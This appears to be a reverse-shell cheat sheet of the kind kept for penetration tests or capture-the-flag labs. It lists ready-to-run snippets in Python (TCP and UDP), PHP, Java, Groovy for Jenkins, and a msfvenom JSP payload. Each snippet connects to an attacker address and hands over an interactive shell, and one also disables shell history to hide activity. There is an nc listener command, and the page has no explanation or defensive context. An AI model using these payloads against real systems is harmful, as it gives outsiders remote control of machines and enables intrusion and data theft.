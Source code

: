 ## python
### tcp
```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("attackerip",443));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```
###  udp
start listener
```
nc -nvlp 4445 -u
```
```
import os,pty,socket;
s=socket.socket(socket.AF_INET, socket.SOCK_DGRAM);
s.connect(("10.10.14.17",4445));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
os.putenv("HISTFILE",'/dev/null');
pty.spawn("/bin/sh");
s.close()
```

## php

```
<?php exec("nohup bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1'"); ?>
```
```
php -r '$sock=fsockopen("10.10.14.6",666);exec("/bin/bash -i <&3 >&3 2>&3");'
```



## java reverse shell

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/attackerip/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f war > runme.war
```
## groovy - jenkins
```
String host="10.10.14.6";
int port=666;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
